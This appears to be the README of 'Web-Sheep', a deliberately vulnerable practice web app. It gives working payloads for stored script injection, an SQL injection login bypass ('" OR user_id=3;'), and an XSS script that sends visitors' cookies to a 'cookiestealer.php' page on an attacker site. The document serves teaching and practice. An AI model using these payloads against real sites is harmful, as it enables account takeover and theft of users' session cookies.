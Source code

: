 # web_sheep
Welcome to 'Web-Sheep - A Vulnerable Web-App!'
This was created to demonstrate some basic but dangerous vulnerabilities that can be occasionally found in web-pages. Refer to 'database_setup.txt' in 'bobs_website' for instructions to setup the database in your system.

1. HTML(Code) Injection

Code injection is the exploitation of a computer bug that is caused by processing invalid data. Injection is used by an attacker to introduce (or "inject") code into a vulnerable computer program and change the course of execution.

↓Script to cause an alert in the browser saying 'You have been hacked!'. This will be seen by any user to attempts to view the Bob's(The Website Owner). Paste this in the content area of 'Create Post'.

/*
    <script>alert( 'You have been hacked!' );</script>
*/


2. SQL Injection

SQL injection takes advantage of the syntax of SQL to inject commands that can read or modify a database, or compromise the meaning of the original query.

↓Code to log into any user's account. This causes the query to return the account details of the user with the mentioned 'user_id'. Paste this into the 'Email' section of the 'Login' page.

/*
    " OR user_id=3;
*/


3. XSS Attack

XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

↓Script to steal a user's cookies. This will send any user's remember cookie to Mallory's(The Hacker) website using GET parameters which can then be used by Mallory to gain access to their account. Paste this in the content area of 'Create Post'. Type in the location of the 'web_sheep' directory in place of (location).

/*
    <script>document.write('&lt;img src=&quot;http://localhost/(location)/web_sheep/mallorys_website/cookiestealer.php?cookie='+escape(document.cookie)+'&quot; hidden&gt;');</script>
*/
